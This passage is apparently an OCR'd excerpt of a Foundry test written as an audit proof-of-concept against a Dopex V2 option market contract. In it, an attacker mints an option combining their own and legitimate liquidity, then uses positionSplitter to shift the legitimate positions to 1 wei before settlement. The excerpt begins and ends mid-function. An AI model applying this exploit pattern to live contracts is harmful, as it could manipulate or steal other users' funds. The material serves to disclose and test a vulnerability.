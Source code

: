 ```solidity
                tickLower: tickLowerCalls,
                tickUpper: tickUpperCalls,
                liquidityToUse: shares
            });
            //legit liquidity
            opTicks[1] = DopexV2OptionMarketV2.OptionTicks({
                _handler: uniV3Handler,
                pool: pool,
                hook: hook,
                tickLower: tickLowerCalls,
                tickUpper: tickUpperCalls,
                liquidityToUse: l
            });

            //mint some tokens to the attacker to pay the option fee
            vm.startPrank(attacker);
            token1.mint(attacker, 0.08 ether);
            token1.approve(address(optionMarket), 0.08 ether);

            //mint our option
            optionMarket.mintOption(
                DopexV2OptionMarketV2.OptionParams({
                    optionTicks: opTicks,
                    tickLower: tickLowerCalls,
                    tickUpper: tickUpperCalls,
                    ttl: 20 minutes,
                    isCall: true,
                    maxCostAllowance: 0.08 ether
                })
            );
            vm.stopPrank();
        }

        uint256[] memory toSplit = new uint256[](2);
        toSplit[0] = shares;
        toSplit[1] = 1;

        //split the option, send the attacker liquidity to the new option and only 1 wei from the legit liquidity
        vm.prank(attacker);
        optionMarket.positionSplitter(DopexV2OptionMarketV2.PositionSplitterParams({
            optionId: 1,
            to: attacker,
            liquidityToSplit: toSplit
        }));

        vm.warp(block.timestamp + 1201 seconds);

        (,,,,,uint256 liquidityToUse) = optionMarket.opTickMap(1, 0);
        (,,,,,uint256 liquidityToUse2) = optionMarket.opTickMap(1, 1);

        uint256[] memory liquidityToSettle = new uint256[](2);
        liquidityToSettle[0] = liquidityToUse;
        liquidityToSettle[1] = liquidityToUse2;

        bytes[] memory swapData = new bytes[](2);
        swapData[0] = abi.encode(pool.fee(), 0);
        swapData[1] = abi.encode(pool.fee(), 0);

        ISwapper[] memory swappers = new ISwapper[](2);
        swappers[0] = srs;
        swappers[1] = srs;

```